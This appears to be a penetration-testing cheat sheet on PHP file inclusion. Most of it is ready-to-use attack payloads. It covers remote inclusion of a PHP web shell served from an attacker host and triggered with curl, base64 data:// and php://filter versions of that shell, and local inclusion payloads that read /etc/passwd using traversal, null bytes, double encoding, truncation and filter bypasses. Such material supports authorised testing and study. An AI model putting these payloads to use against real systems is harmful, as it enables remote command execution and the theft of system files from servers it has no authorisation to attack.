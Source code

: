 ```yaml
---
icon: file-code
---
```


# File Inclusion

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://<target>/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

```bash
echo '<?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
curl 'http://<target>/index.php?page=http://<attacker>/shell.txt&cmd=<comand>'
```

If the server were blocking access to external resources, we could try using the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://<target>/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://<target>/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://<target>/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://<target>/index.php?page=%252e%252e%252fetc%252fpasswd
http://<target>/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Truncation

```powershell
http://<target>/index.php?page=../../../etc/passwd......[ADD MORE]
http://<target>/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://<target>/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
